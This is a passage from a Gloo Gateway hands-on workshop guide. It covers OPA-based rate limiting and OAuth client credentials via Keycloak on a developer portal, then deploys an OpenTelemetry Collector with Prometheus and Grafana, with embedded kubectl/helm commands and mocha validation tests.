echo "executing test dist/document/build/templates/steps/apps/bookinfo/dev-portal-self-service/tests/access-api-authorized.test.js.liquid from lab number 21"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail --exit || { DEBUG_MODE=true mocha ./test.js --timeout 120000; echo "The workshop failed in lab number 21"; exit 1; }
-->

So, we've secured the access to our API, but you generally want to also limit the usage of your API.

We're going to apply rate limiting to the Gateway dynamically using metadata gathered by OPA.

We need to create a `RateLimitConfig` object:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: ratelimit.solo.io/v1alpha1
kind: RateLimitConfig
metadata:
  name: dynamic
  namespace: gloo-system
spec:
  raw:
    setDescriptors:
      - simpleDescriptors:
          - key: generic_key
            value: counter
        rateLimit:
          requestsPerUnit: 100
          unit: SECOND
    rateLimits:
    - setActions:
      - genericKey:
          descriptorValue: counter
      limit:
        dynamicMetadata:
          metadataKey:
            key: "envoy.filters.http.ext_authz"
            path:
            - key: "portal"
            - key: "rateLimit"
EOF
```

It applies a default limit of 100 requests per second, which is going to be overriden by the limit defined in the metadata generated by OPA (5 requests per minute).

Finally, you need to update the `RouteOption` to use this `RateLimitConfig`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.solo.io/v1
kind: RouteOption
metadata:
  name: routeoption-apis
  namespace: gloo-system
spec:
  targetRefs:
  - group: gateway.networking.k8s.io
    kind: HTTPRoute
    name: bookinfo
  options:
    # ExtAuth configuration
    extauth:
      configRef:
        name: apis
        namespace: gloo-system
    cors:
      allowCredentials: true
      allowHeaders:
      - "*"
      allowMethods:
      - GET
      allowOriginRegex:
      - ".*"
    # Rate limit configuration
    rateLimitConfigs:
      refs:
      - name: dynamic
        namespace: gloo-system
EOF
```

Run the following command:

```bash,noexecute
for i in `seq 1 10`; do curl -k -H "api-key: $API_KEY" "https://bookinfo.example.com/api/bookinfo/v1" -I; done
```

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-http');

describe("Access to API rate limited", () => {
  it('Response code is 429', () => helpers.checkURL({ host: `https://bookinfo.example.com`, path: '/api/bookinfo/v1', headers: [{key: 'api-key', value: process.env.API_KEY}], retCode: 429 }));
})
EOF
echo "executing test dist/document/build/templates/steps/apps/bookinfo/dev-portal-self-service/tests/access-api-rate-limited.test.js.liquid from lab number 21"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail --exit || { DEBUG_MODE=true mocha ./test.js --timeout 120000; echo "The workshop failed in lab number 21"; exit 1; }
-->

You should get a `200` response code the first 5 time and a `429` response code after.


Instead of using api keys, you can use oauth credentials.

To allow the Gloo Gateway portal backend to manage clients in Keycloak, we need to deploy a SPI (Service Provider Interfaces).

```bash
helm repo add gloo-portal-idp-connect https://storage.googleapis.com/gloo-mesh-enterprise/gloo-portal-idp-connect

helm upgrade -i -n gloo-system \
  portal-idp gloo-portal-idp-connect/gloo-portal-idp-connect \
  --version 0.3.0 \
  --kube-context $CLUSTER1 \
  -f -<<EOF
connector: keycloak
keycloak:
  realm: http://keycloak.keycloak.svc.cluster.local:8080/realms/portal-mgmt
  mgmtClientId: gloo-portal-idp
  mgmtClientSecret: gloo-portal-idp-secret
EOF

kubectl --context ${CLUSTER1} -n gloo-system rollout status deploy gloo-portal-idp-connect
```


We can now configure the Gloo Gateway portal backend to use it:

```bash
helm upgrade -i -n gloo-system \
  gloo-gateway gloo-ee-helm/gloo-ee \
  --create-namespace \
  --version 1.18.8 \
  --kube-context ${CLUSTER1} \
  --reuse-values \
  -f -<<EOF
gateway-portal-web-server:
  enabled: true
  glooPortalServer:
    idpServerUrl: http://idp-connect.gloo-system.svc.cluster.local
EOF

kubectl --context ${CLUSTER1} -n gloo-system rollout status deploy gateway-portal-web-server
```


We need to update the existing `AuthConfig` object to add the step to validate the Access Token before the portalAuth authorization step:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: enterprise.gloo.solo.io/v1
kind: AuthConfig
metadata:
  name: apis
  namespace: gloo-system
spec:
  configs:
    - name: oauth2
      oauth2:
        accessTokenValidation:
          jwt:
            remoteJwks:
              url: ${KEYCLOAK_URL}/realms/portal-mgmt/protocol/openid-connect/certs
    - name: portal
      portalAuth:
        url: http://gateway-portal-web-server.gloo-system.svc.cluster.local:8080
        cacheDuration: 60s
        redisOptions:
          host: redis:6379
EOF
```


<details open>
  <summary>Using the portal frontend UI</summary>

Go to `Apps` and click on `DETAILS` and create an OAuth client:


Set the `CLIENT_ID` and `CLIENT_SECRET` environment variables using their values.

```,nocopy
export CLIENT_ID=<the value displayed in the UI>
export CLIENT_SECRET=<the value displayed in the UI>
```

</details>


<!--bash
cat <<'EOF' > ./test.js
const DeveloperPortalHomePage = require('./tests/pages/dev-portal/home-page');
const DeveloperPortalAPIPage = require('./tests/pages/dev-portal/api-page');
const DeveloperPortalTeamsPage = require('./tests/pages/dev-portal/teams-page');
const DeveloperPortalAppsPage = require('./tests/pages/dev-portal/apps-page');
const DeveloperPortalAdminSubscriptionsPage = require('./tests/pages/dev-portal/admin-subscriptions-page');
const DeveloperPortalAdminAppsPage = require('./tests/pages/dev-portal/admin-apps-page');
const KeycloakSignInPage = require('./tests/pages/keycloak-sign-in-page');
const puppeteer = require('puppeteer-extra');
puppeteer.use(require('puppeteer-extra-plugin-user-preferences')({
    userPrefs: {
        safebrowsing: {
            enabled: false,
            enhanced: false
        }
    }
}));
const { enhanceBrowser } = require('./tests/utils/enhance-browser');
var chai = require('chai');
var expect = chai.expect;
const fs = require('fs');

afterEach(function (done) {
  if (this.currentTest.currentRetry() > 0) {
    process.stdout.write(".");
    setTimeout(done, 4000);
  } else {
    done();
  }
});

describe("Dev portal frontend UI oauth", function () {
  // UI tests often require a longer timeout.
  // So here we force it to a minimum of 30 seconds.
  const currentTimeout = this.timeout();
  this.timeout(Math.max(currentTimeout, 30000));

  let browser;
  let devPortalHomePage;
  let devPortalAPIPage;
  let devPortalTeamsPage;
  let devPortalAppsPage;
  let devPortalAdminSubscriptionsPage;
  let devPortalAdminAppsPage;
  let keycloakSignInPage;

  // Use Mocha's 'before' hook to set up Puppeteer
  before(async function () {
    browser = await puppeteer.launch({
      headless: "new",
      slowMo: 10,
      ignoreHTTPSErrors: true,
      args: ['--no-sandbox', '--disable-setuid-sandbox'],
    });
    browser = enhanceBrowser(browser, this.currentTest.title);
    let page = await browser.newPage();
    await page.setViewport({ width: 1500, height: 1000 });
    devPortalHomePage = new DeveloperPortalHomePage(page);
    devPortalAPIPage = new DeveloperPortalAPIPage(page);
    devPortalTeamsPage = new DeveloperPortalTeamsPage(page);
    devPortalAppsPage = new DeveloperPortalAppsPage(page);
    devPortalAdminSubscriptionsPage = new DeveloperPortalAdminSubscriptionsPage(page);
    devPortalAdminAppsPage = new DeveloperPortalAdminAppsPage(page);
    keycloakSignInPage = new KeycloakSignInPage(page);
  });

  it("user1 should authenticate with keycloak", async () => {
    await devPortalHomePage.navigateTo(`https://portal.example.com`);
    await devPortalHomePage.clickLogin();
    await keycloakSignInPage.signIn("user1", "password");
    let username = await devPortalHomePage.getLoggedInUserName();
    expect(username).to.equal("user1");
  });

  it('user1 should be able to create an OAuth client', async () => {
    await devPortalAppsPage.navigateTo(`https://portal.example.com/apps`);
    await devPortalAppsPage.navigateToAppDetails();
    
    // Create the API key and get its value
    const oauthClient = await devPortalAppsPage.createOAuthClient();
    
    // write API key to a file
    fs.writeFileSync('oauthClient', JSON.stringify(oauthClient));
  });
  
  // Use Mocha's 'after' hook to close Puppeteer
  after(async function () {
    await browser.close();
  });
});
EOF
echo "executing test dist/document/build/templates/steps/apps/bookinfo/dev-portal-self-service/tests/dev-portal-ui-tests-oauth.test.js.liquid from lab number 21"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=10 --bail --exit || { DEBUG_MODE=true mocha ./test.js --timeout 120000; echo "The workshop failed in lab number 21"; exit 1; }
-->
<!--bash
export CLIENT_ID=$(cat oauthClient | jq -r .clientId)
export CLIENT_SECRET=$(cat oauthClient | jq -r .clientSecret)
-->


Generate an access token using your client id and secret:

```bash
export APP_TOKEN=$(curl -Ssm 10 --fail-with-body \
  -d "client_id=${CLIENT_ID}" \
  -d "client_secret=${CLIENT_SECRET}" \
  -d "grant_type=client_credentials" \
  "$KEYCLOAK_URL/realms/portal-mgmt/protocol/openid-connect/token" |
  jq -r .access_token)

echo export APP_TOKEN=${APP_TOKEN}
```

Run the following command:

```bash,noexecute
for i in `seq 1 10`; do curl -k -H "Authorization: Bearer $APP_TOKEN" "https://bookinfo.example.com/api/bookinfo/v1" -I; done
```

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-http');

describe("Access to API unauthorized", () => {
  it('Response code is 403', () => helpers.checkURL({ host: `https://bookinfo.example.com`, path: '/api/bookinfo/v1', retCode: 403 }));
})
EOF
echo "executing test dist/document/build/templates/steps/apps/bookinfo/dev-portal-self-service/tests/access-api-unauthorized.test.js.liquid from lab number 21"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail --exit || { DEBUG_MODE=true mocha ./test.js --timeout 120000; echo "The workshop failed in lab number 21"; exit 1; }
-->

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-http');

describe("Access to API rate limited", () => {
  it('Response code is 429', () => helpers.checkURL({ host: `https://bookinfo.example.com`, path: '/api/bookinfo/v1', headers: [{key: 'Authorization', value: 'Bearer ' + process.env.APP_TOKEN}], retCode: 429 }));
})
EOF
echo "executing test dist/document/build/templates/steps/apps/bookinfo/dev-portal-self-service/tests/access-api-oauth.test.js.liquid from lab number 21"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail --exit || { DEBUG_MODE=true mocha ./test.js --timeout 120000; echo "The workshop failed in lab number 21"; exit 1; }
-->

You should get a `200` response code the first 5 time and a `429` response code after.


## Lab 22 - Deploy OpenTelemetry Collector <a name="lab-22---deploy-opentelemetry-collector-"></a>

Having metrics is essential for running applications reliably, and gateways are no exceptions.

Using [OpenTelemetry Collectors](https://github.com/open-telemetry/opentelemetry-collector-contrib) is a nice way to collect, transform, and ship telemetry to your observability backends.

Let's deploy the OSS distribution of OpenTelemetry Collector, and get started!

```bash
helm repo add open-telemetry https://open-telemetry.github.io/opentelemetry-helm-charts
helm repo update

helm upgrade --install opentelemetry-collector open-telemetry/opentelemetry-collector \
--version 0.97.1 \
--set mode=deployment \
--set image.repository="otel/opentelemetry-collector-contrib" \
--set command.name="otelcol-contrib" \
--namespace=otel \
--create-namespace \
-f -<<EOF
clusterRole:
  create: true
  rules:
  - apiGroups:
    - ''
    resources:
    - 'pods'
    - 'nodes'
    verbs:
    - 'get'
    - 'list'
    - 'watch'
ports:
  promexporter:
    enabled: true
    containerPort: 9099
    servicePort: 9099
    protocol: TCP
config:
  receivers:
    prometheus/gloo-dataplane:
      config:
        scrape_configs:
        # Scrape the Gloo Gateway pods
        - job_name: gloo-gateways
          honor_labels: true
          kubernetes_sd_configs:
          - role: pod
          relabel_configs:
            - action: keep
              regex: kube-gateway
              source_labels:
              - __meta_kubernetes_pod_label_gloo
            - source_labels: [__meta_kubernetes_pod_annotation_prometheus_io_scrape]
              action: keep
              regex: true
            - source_labels: [__meta_kubernetes_pod_annotation_prometheus_io_path]
              action: replace
              target_label: __metrics_path__
              regex: (.+)
            - action: replace
              source_labels:
              - __meta_kubernetes_pod_ip
              - __meta_kubernetes_pod_annotation_prometheus_io_port
              separator: ':'
              target_label: __address__
            - action: labelmap
              regex: __meta_kubernetes_pod_label_(.+)
            - source_labels: [__meta_kubernetes_namespace]
              action: replace
              target_label: kube_namespace
            - source_labels: [__meta_kubernetes_pod_name]
              action: replace
              target_label: pod
    prometheus/gloo-controlplane:
      config:
        scrape_configs:
        # Scrape the Gloo pods
        - job_name: gloo-gateways
          honor_labels: true
          kubernetes_sd_configs:
          - role: pod
          relabel_configs:
            - action: keep
              regex: gloo
              source_labels:
              - __meta_kubernetes_pod_label_gloo
            - source_labels: [__meta_kubernetes_pod_annotation_prometheus_io_scrape]
              action: keep
              regex: true
            - source_labels: [__meta_kubernetes_pod_annotation_prometheus_io_path]
              action: replace
              target_label: __metrics_path__
              regex: (.+)
            - action: replace
              source_labels:
              - __meta_kubernetes_pod_ip
              - __meta_kubernetes_pod_annotation_prometheus_io_port
              separator: ':'
              target_label: __address__
            - action: labelmap
              regex: __meta_kubernetes_pod_label_(.+)
            - source_labels: [__meta_kubernetes_namespace]
              action: replace
              target_label: kube_namespace
            - source_labels: [__meta_kubernetes_pod_name]
              action: replace
              target_label: pod
  exporters:
    prometheus:
      endpoint: 0.0.0.0:9099
    debug: {}
  service:
    pipelines:
      metrics:
        receivers: [prometheus/gloo-dataplane, prometheus/gloo-controlplane]
        processors: [batch]
        exporters: [prometheus]
EOF
```

This deployment will now scrape our Gateways' metrics, and expose these metrics in Prometheus format.

While you could scrape the Gateway pods directly as well, that might only work if you only want to consume them from the local cluster. Or, you could be standardizing on OpenTelemetry to avoid vendor/project specific agents. In this case, ingesting the metrics into an OTel Collector can make perfect sense, since you can freely transform telemetry data and ship to the backend of your liking.

For simplicity's sake, let's imagine that our desired backend is a local Prometheus instance. Let's get the telemetry data in to that one!

First, let's install kube-prometheus-stack!

```bash
helm repo add prometheus-community https://prometheus-community.github.io/helm-charts
helm repo update

helm upgrade --install kube-prometheus-stack \
prometheus-community/kube-prometheus-stack \
--version 61.2.0 \
--namespace monitoring \
--create-namespace \
--values - <<EOF
grafana:
  service:
    type: LoadBalancer
    port: 3000
prometheus:
  prometheusSpec:
    ruleSelectorNilUsesHelmValues: false
    serviceMonitorSelectorNilUsesHelmValues: false
    podMonitorSelectorNilUsesHelmValues: false
EOF
```

Finally, configure scraping for our OTel Collector via a PodMonitor!

```bash
cat <<EOF | kubectl apply -n otel -f -
apiVersion: monitoring.coreos.com/v1
kind: PodMonitor
metadata:
  name: otel-monitor
spec:
  podMetricsEndpoints:
  - interval: 30s
    port: promexporter
    scheme: http
  selector:
    matchLabels:
      app.kubernetes.io/name: opentelemetry-collector
EOF
```

Now let's import a sample dashboard!

```bash
kubectl -n monitoring create cm envoy-dashboard \
--from-file=data/steps/deploy-otel-collector/envoy.json
kubectl label -n monitoring cm envoy-dashboard grafana_dashboard=1
```

Let's generate some traffic!

```bash,noexecute
for i in {1..5}; do curl https://httpbin.example.com/get -v; done
```


To access Grafana, you need to get the endpoint using the following command:

```bash
echo "http://$(kubectl --context ${CLUSTER1} -n monitoring get svc kube-prometheus-stack-grafana -o jsonpath='{.status.loadBalancer.ingress[0].ip}{.status.loadBalancer.ingress[0].hostname}'):3000"
```


Login with `admin` and `prom-operator` you should be able to see how traffic flows trough your Gateways!


